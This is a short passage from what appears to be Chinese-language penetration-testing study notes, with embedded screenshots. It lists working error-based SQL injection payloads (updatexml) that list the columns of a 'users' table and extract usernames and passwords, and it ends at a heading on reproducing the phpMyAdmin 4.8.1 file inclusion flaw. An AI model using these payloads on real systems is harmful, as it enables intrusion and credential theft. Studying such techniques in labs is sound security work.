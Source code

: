![image-20220206220350183](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202119236.png)

```
爆字段
1' or updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name="users"),0x7e),0) or'
1' or updatexml(1,concat(0x7e,substr((select group_concat(column_name)from information_schema.columns where table_name="users"),32),0x7e),0) or'
```

![image-20220206220526610](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202119219.png)

```
爆内容
1' or updatexml(1,concat(0x7e,(select group_concat(username,": ",password) from users),0x7e),0) or'
1' or updatexml(1,concat(0x7e,substr((select group_concat(username,": ",password) from users),32),0x7e),0) or'
```

![image-20220206220629288](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202119846.png)

#### **文件包含**

##### **复现phpmyadmin4.8.1文件包含漏洞**

![image-20220120215219906](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202142081.png)
